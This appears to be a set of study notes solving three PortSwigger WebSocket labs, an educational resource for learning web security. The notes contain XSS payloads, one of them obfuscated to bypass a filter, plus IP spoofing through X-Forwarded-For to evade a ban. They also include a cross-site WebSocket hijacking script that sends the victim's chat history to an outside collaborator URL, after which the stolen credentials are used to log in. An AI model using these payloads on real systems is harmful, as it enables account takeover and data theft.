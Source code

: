 ## Table of Contents

- [[#Manipulating WebSocket messages to exploit vulnerabilities]]
- [[#Manipulating the WebSocket handshake to exploit vulnerabilities]]
- [[#Cross-site WebSocket hijacking]]

## Manipulating WebSocket messages to exploit vulnerabilities
Reference: https://portswigger.net/web-security/websockets/lab-manipulating-messages-to-exploit-vulnerabilities

```ad-hint
title: Quick Solution
Intercept the WebSocket message and set the content to:
~~~html
<img src=x onerror='alert(1)'>
~~~
```

```ad-done
title: Solution
1. Click "Live chat" and send a chat message. 
2. In Burp Proxy, go to the WebSockets history tab, and observe that the chat message has been sent via a WebSocket message.
3. Using your browser, send a new message containing a < character. In Burp Proxy, find the corresponding WebSocket message and observe that the < has been HTML-encoded by the client before sending.
4. Ensure that Burp Proxy is configured to intercept WebSocket messages, then send another chat message.
5. Edit the intercepted message to contain the following payload:
~~~html
<img src=1 onerror='alert(1)'>
~~~
7. Observe that an alert is triggered in your browser. This will also happen in the support agent's browser. 
```

## Manipulating the WebSocket handshake to exploit vulnerabilities
Reference: https://portswigger.net/web-security/websockets/lab-manipulating-handshake-to-exploit-vulnerabilities

```ad-hint
title: Quick Solution
Intercept the WebSocket message and set the content to:
~~~html
<img src=1 oNeRrOr=alert`1`>
~~~
since there is an aggressive but flawed XSS filter (the solution says to also add the:
~~~http
X-Forwarded-For: 1.1.1.1
~~~
header to spoof the IP address).
```

```ad-done
title: Solution
1. Click "Live chat" and send a chat message.
2. In Burp Proxy, go to the WebSockets history tab, and observe that the chat message has been sent via a WebSocket message.
3. Right-click on the message and select "Send to Repeater".
4. Edit and resend the message containing a basic XSS payload, such as:
~~~html
<img src=1 onerror='alert(1)'>
~~~
5. Observe that the attack has been blocked, and that your WebSocket connection has been terminated. 
6. Click "Reconnect", and observe that the connection attempt fails because your IP address has been banned.
7. Add the following header to the handshake request to spoof your IP address:
~~~http
X-Forwarded-For: 1.1.1.1
~~~
8. Click "Connect" to successfully reconnect the WebSocket. 
9. Send a WebSocket message containing an obfuscated XSS payload, such as:
~~~html
<img src=1 oNeRrOr=alert`1`> 
~~~
```

## Cross-site WebSocket hijacking
Reference: https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab

```ad-hint
title: Quick Solution
in this lab a specific script must be created and put inside the **Exploit Server**. The Live Chat uses WebSockets without CSRF Tokens, so using the Exploit Server and the Burp Collaborator it is possible to exfiltrate the victim's data (look at the Solution for the exploit code).
```

```ad-done
title: Solution
1. Click "Live chat" and send a chat message.
2. Reload the page.
3. In Burp Proxy, in the WebSockets history tab, observe that the "READY" command retrieves past chat messages from the server.
4. In Burp Proxy, in the HTTP history tab, find the WebSocket handshake request. Observe that the request has no CSRF tokens.
5. Right-click on the handshake request and select "Copy URL".
6. In your browser, go to the exploit server and paste the following template into the "Body" section:
~~~html
<script>
  var ws = new WebSocket('wss://your-websocket-url');
  ws.onopen = function() {
    ws.send("READY");
  };
  ws.onmessage = function(event) {
    fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
  };
</script>
~~~
7. Replace ``your-websocket-url`` with the URL from the WebSocket handshake (``your-lab-id.web-security-academy.net/chat``). Make sure you change the protocol from ``https://`` to ``wss://``. Replace ``your-collaborator-url`` with a payload generated by Burp Collaborator Client.
8. Click "View exploit".
9. Poll for interactions using Burp Collaborator client. Verify that the attack has successfully retrieved your chat history and exfiltrated it via Burp Collaborator. For every message in the chat, Burp Collaborator has received an HTTP request. The request body contains the full contents of the chat message in JSON format. Note that these messages may not be received in the correct order.
10. Go back to the exploit server and deliver the exploit to the victim.
11. Poll for interactions using Burp Collaborator client again. Observe that you've received more HTTP interactions containing the victim's chat history. Examine the messages and notice that one of them contains the victim's username and password.
12. Use the exfiltrated credentials to log in to the victim user's account.
```
